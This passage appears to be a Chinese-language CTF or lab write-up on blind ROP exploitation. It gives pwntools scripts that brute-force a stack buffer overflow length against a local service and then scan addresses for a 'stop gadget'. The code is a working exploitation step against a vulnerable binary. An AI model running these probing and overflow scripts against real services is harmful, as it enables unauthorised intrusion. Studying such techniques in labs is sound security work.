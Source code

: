 #### 首先试探是否存在栈溢出漏洞：

需要从1开始枚举

```python
from pwn import *
from pwn import p64

def getbufferflow_length():
    i = 1
    while 1:
        try:
            sh = remote('127.0.0.1', 8888)
            sh.recvuntil(b'WelCome my friend,Do you know password?\n')
            sh.send(i * b'a')
            output = sh.recv()
            sh.close()
            if not output.startswith(b'No password'):
                return i - 1
            else:
                i += 1
        except EOFError:
            sh.close()
            return i - 1
        
print(getbufferflow_length())
```

![image-20240406210513522](${images}/image-20240406210513522.png)

得到溢出长度为72，并且根据回显的信息得知，没有Canary保护，因为，如果有Canary保护就会有相应的报错内容，所以不需要执行stack reading。



#### 寻找stop gadgets

函数如下：

```python
def get_stop_addr(buf_size):
    addr = 0x400000
    while True:
        sleep(0.1)
        addr += 1
        payload  = b"A"*buf_size
        payload += p64(addr)
        try:
            p = remote('127.0.0.1', 8888)
            p.recvline()
            p.sendline(payload)
            p.recvline()
            p.close()
            log.info("stop address: 0x%x" % addr)
            return addr
        except EOFError as e:
            p.close()
            log.info("bad: 0x%x" % addr)
        except:
            log.info("Can't connect")
            addr -= 1
```
